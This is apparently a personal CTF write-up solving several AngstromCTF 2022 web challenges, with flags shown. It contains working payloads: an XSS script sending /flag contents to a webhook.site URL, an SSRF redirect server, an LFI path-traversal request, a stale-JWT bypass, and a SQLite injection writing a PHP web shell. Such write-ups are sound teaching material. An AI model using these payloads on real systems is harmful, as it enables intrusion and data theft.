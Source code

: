 ```yaml
---
title: AngstromCTF 2022
description: From AngstromCTF2022
author: to^
date: 2022-05-02 22:25:00 +0700
categories: [WebSec, CTF]
tags: [xss, sqli, rce]     # TAG names should always be lowercase
img_path: /assets/img/angstromctf2022
image:
 src: logo.jpg
 alt: AngstromCTF2022 logo
 width: 1000
 height: 400
---
```


My solution for some web challenges in this competition

## The Flash

Use DOM breakpoints in Chrome devtools, right click on `p` tag and chose `Break on -> subtree modifications` then step over to get flag

> **actf{sp33dy_l1ke_th3_fl4sh}**
{: .prompt-info  }

___

## Auth Skip

set cookie: `user=admin`

> **actf{passwordless_authentication_is_the_new_hip_thing}**
{: .prompt-info  }

___

## crumbs

exploit script:
```py
import requests
import re

TARGET = "https://crumbs.web.actf.co/"

s = requests.Session()
next = ""
for i in range(1002):
    r = s.get(TARGET + next)
    if i == 1001:
        print(r.text)
        break
    next = re.search(r"Go to (.*)", r.text).group(1)
    print(next)
```

> **actf{w4ke_up_to_th3_m0on_6bdc10d7c6d5}**
{: .prompt-info  }

___

## Xtra Salty Sardines

Pay attention to the flowing lines:
```js
const name = req.body.name
    .replace("&", "&amp;")
    .replace('"', "&quot;")
    .replace("'", "&apos;")
    .replace("<", "&lt;")
    .replace(">", "&gt;");
```
I abuse that:

> The `replace()` method returns a new string with some or all matches of a `pattern` replaced by a replacement. The `pattern` can be a string or a `RegExp`, and the replacement can be a string or a function called for each match. If pattern is a **string**, only the **first** occurrence will be replaced.
{: .prompt-tip  }

Payload:
```html
'<></h1><script>var x = new XMLHttpRequest;x = open('GET', '/flag'); x.onload = function() {navigator.sendBeacon('https://webhook.site/8771a7aa-4464-438a-84ac-7311eae5bd87', this.responseText)}; x.send();</script>
```

> **actf{those_sardines_are_yummy_yummy_in_my_tummy}**
{: .prompt-info  }


___

## School unblocker


Use [this](https://stackoverflow.com/questions/38810114/node-js-with-express-how-to-redirect-a-post-request#:~:text=app.post(%27/%27%2C%20function(req%2C%20res)%20%7B%0A%20%20res.redirect(307%2C%20%27/test%27)%3B%0A%7D)%3B).

Exploit script:

```js
const express = require('express')

const app = express();
const port = Number(process.env.PORT) || 8888;


app.post("/", (req, res) => {

    res.redirect(307, "http://127.0.0.1:8080/flag")

});

app.listen(port, () => {
    console.log(`Server listening on port ${port}`);
});
```

> **actf{dont_authenticate_via_ip_please}**
{: .prompt-info  }
___

## Art Gallery

LFI in `member` parameter.

> Noted that `/proc/1/cwd/` point to the current working directory in the docker container.
{: .prompt-tip  }

Send the following payload to fetch `Dockerfile`.

```
https://art-gallery.web.actf.co/gallery/?member=../../../../proc/1/cwd/Dockerfile
```

Dockerfile:
```docker
FROM node:17-bullseye-slim

WORKDIR /app
COPY . .
RUN mv git .git
RUN npm ci

ENV PORT=8080

EXPOSE 8080

CMD ["node", "index.js"]
```

The next step is to exploit the `.git` folder using [GitHacker](https://github.com/WangYihang/GitHacker).

After fetching all sources, use `git log` to check log commit.

```
┌─[nguyen@parrot]─[~/LearningSpace/test/result/ec42c41d9bc611be9e22c4092e4828d0]
└──╼ $git log
commit 1c584170fb33ae17a63e22456f19601efb1f23db (HEAD, origin/master, origin/HEAD, master)
Author: imposter <sus@aplet.me>
Date:   Tue Apr 26 21:47:45 2022 -0400

    bury secrets

commit 713a4aba8af38c9507ced6ea41f602b105ca4101
Author: imposter <sus@aplet.me>
Date:   Tue Apr 26 21:44:48 2022 -0400

    remove vital secrets

commit 56449caeb7973b88f20d67b4c343cbb895aa6bc7
Author: imposter <sus@aplet.me>
Date:   Tue Apr 26 21:44:01 2022 -0400

    add program
```

`git checkout` to check a commit.
```
─[✗]─[nguyen@parrot]─[~/LearningSpace/test/result/ec42c41d9bc611be9e22c4092e4828d0]
└──╼ $git checkout 56449caeb7973b88f20d67b4c343cbb895aa6bc7
Previous HEAD position was 1c58417 bury secrets
HEAD is now at 56449ca add program
┌─[nguyen@parrot]─[~/LearningSpace/test/result/ec42c41d9bc611be9e22c4092e4828d0]
└──╼ $ls
error.html  flag.txt  images  index.html  index.js  package.json  package-lock.json
┌─[nguyen@parrot]─[~/LearningSpace/test/result/ec42c41d9bc611be9e22c4092e4828d0]
└──╼ $cat flag.txt 
actf{lfi_me_alone_and_git_out_341n4kaf5u59v}
```

> **actf{lfi_me_alone_and_git_out_341n4kaf5u59v}**
{: .prompt-info  }
___

## Secure Vault

Create an account: `bla:bla` then save the `token` value (jwt of bla account) after that `Delete account`. Then set the cookie value with `token:<jwt token of bla account>` -> return flag.

The reason why it works is due to the following two lines in `index.js`:
```js
const user = users.get(res.locals.user.uid);
res.type("text/plain").send(user.restricted ? user.vault : flag);
```
if we send an old jwt, then `user={}` and `user.restricted=undefined` (because it has been already deleted from `UserStore`).

> **actf{is_this_what_uaf_is}**
{: .prompt-info  }

___

## NoFlags

Dockerfile:

```docker
FROM php:8.1.5-apache-bullseye

COPY printflag /printflag
RUN chmod 111 /printflag
COPY src /var/www/html


RUN chown -R root:root /var/www/html && chmod -R 555 /var/www/html        
RUN mkdir /var/www/html/abyss &&\
    chown -R root:root /var/www/html/abyss &&\
    chmod -R 333 abyss

EXPOSE 80
```
From this file, i figure out following things:
- `printflag` a file with only-executable permission that used to print flag
- `/var/www/html`: readable and executable permission
- `/var/www/html/abyss`: writable and executable permission

=> The target to achieve is RCE using sqlite injection.

Read more from [here](https://twosixtech.com/sqlite-as-a-shell-script/).

payload:

```
');ATTACH DATABASE '/var/www/html/abyss/exp.php' AS exp;CREATE TABLE exp.pwn (dataz text);INSERT INTO exp.pwn (dataz) VALUES ('<?system($_GET["cmd"]); ?>');--
```

Result:

![flag](NoFlags/flag.png)
_flag_

